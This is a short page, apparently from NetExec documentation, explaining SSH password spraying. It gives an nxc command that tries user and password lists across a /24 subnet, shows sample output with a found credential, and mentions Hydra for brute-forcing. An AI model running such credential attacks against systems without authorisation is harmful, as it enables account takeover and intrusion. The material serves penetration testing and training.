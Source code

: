 # Password spraying

### Password spraying (without bruteforce)

```
#~ nxc ssh 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
```

Expected Results:

```
SSH         127.0.0.1       22     127.0.0.1        [*] SSH-2.0-OpenSSH_8.2p1 Debian-4
SSH         127.0.0.1       22     127.0.0.1        [+] user:password
```

{% hint style="info" %}
By default nxc will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found. Usefull for spraying a single password against a large user list.
{% endhint %}

You can also use [Hydra](https://github.com/vanhauser-thc/thc-hydra) available by default on Kali to bruteforce SSH password, it's faster and better :)

{% embed url="https://github.com/vanhauser-thc/thc-hydra" %}
